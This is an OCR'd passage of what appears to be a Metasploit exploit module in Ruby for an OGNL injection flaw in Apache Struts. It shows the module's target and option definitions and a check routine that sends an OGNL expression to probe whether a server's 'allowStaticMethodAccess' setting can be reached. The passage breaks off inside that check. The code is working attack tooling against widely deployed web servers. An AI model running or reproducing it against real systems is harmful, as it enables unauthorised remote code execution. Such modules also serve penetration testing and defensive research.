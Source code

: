               'Linux', {
                'Platform'       => %w{ unix linux },
                'Arch'           => [ ARCH_CMD, ARCH_X86, ARCH_X64 ],
                'DefaultOptions' => {'PAYLOAD' => 'cmd/unix/generic'}
              },
            ],
          ],
          'DisclosureDate' => 'Aug 22 2018', # Private disclosure = Apr 10 2018
          'DefaultTarget'  => 0))

          register_options(
            [
              Opt::RPORT(8080),
              OptString.new('TARGETURI', [ true, 'A valid base path to a struts application', '/' ]),
              OptString.new('ACTION', [ true, 'A valid endpoint that is configured as a redirect action', 'showcase.action' ]),
              OptString.new('ENABLE_STATIC', [ true, 'Enable "allowStaticMethodAccess" before executing OGNL', true ]),
            ]
          )
          register_advanced_options(
            [
              OptString.new('HTTPMethod', [ true, 'The HTTP method to send in the request. Cannot contain spaces', 'GET' ]),
              OptString.new('HEADER', [ true, 'The HTTP header field used to transport the optional payload', "X-#{rand_text_alpha(4)}"] ),
              OptString.new('TEMPFILE', [ true, 'The temporary filename written to disk when executing a payload', "#{rand_text_alpha(8)}"] ),
            ]
          )
      end

      def check
        # METHOD 1: Try to extract the state of hte allowStaticMethodAccess variable
        ognl = "#_memberAccess['allowStaticMethodAccess']"

        resp = send_struts_request(ognl)

        # If vulnerable, the server should return an HTTP 302 (Redirect)
        #   and the 'Location' header should contain either 'true' or 'false'
        if resp && resp.headers['Location']
          output = resp.headers['Location']
          vprint_status("Redirected to:  #{output}")
          if (output.include? '/true/')
            print_status("Target does *not* require enabling 'allowStaticMethodAccess'.  Setting ENABLE_STATIC to 'false'")
            datastore['ENABLE_STATIC'] = false
            CheckCode::Vulnerable
          elsif (output.include? '/false/')
            print_status("Target requires enabling 'allowStaticMethodAccess'.  Setting ENABLE_STATIC to 'true'")
            datastore['ENABLE_STATIC'] = true
            CheckCode::Vulnerable
          else
            CheckCode::Safe
          end
        elsif resp && resp.code==400